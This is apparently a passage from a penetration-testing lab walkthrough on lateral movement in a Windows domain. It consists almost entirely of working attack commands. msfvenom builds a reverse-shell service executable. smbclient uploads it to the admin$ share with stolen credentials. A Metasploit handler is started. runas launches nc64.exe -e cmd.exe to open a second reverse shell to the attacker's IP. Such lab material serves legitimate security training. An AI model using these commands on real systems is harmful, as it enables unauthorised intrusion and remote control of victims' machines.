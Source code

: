 msfvenom -p windows/shell/reverse\_tcp -f exe-service lhost=\<attacker IP> lport=4444 -o service.exe

![](<../.gitbook/assets/4 (3).png>)

* Use the administrative credentials to upload the payload to the $ADMIN share of the target server using smbclient:

smbclient -c ‘put myservice.exe’ -U \<username> -W ZA ‘//\<target FQDN>/admin$/’ \<password>

![](<../.gitbook/assets/5 (3).png>)

* Start a MSF listener to receive the reverse shell:

msfconsole -q -x “use exploit/multi/handler; set lhost \<attacker IP>; set lport 4444; set payload windows/shell/reverse\_tcp; exploit”

* Use runas on the target to spawn a new shell with the administrative token as sc.exe does not allow credentials to be specified as part of the command.
  * runas command prompt spawns on the user’s session but the attacker only has SSH access so cannot access it.
  * Spawn a second reverse shell with the administrative token:

runas /netonly /user:\<domain>/\<username> “c:\tools\nc64.exe -e cmd.exe \<attacker IP> 4443”

![](<../.gitbook/assets/6 (2).png>)

* Receive the runas reverse shell connection using Netcat:

nc -lvnp 4443

![](<../.gitbook/assets/7 (2).png>)
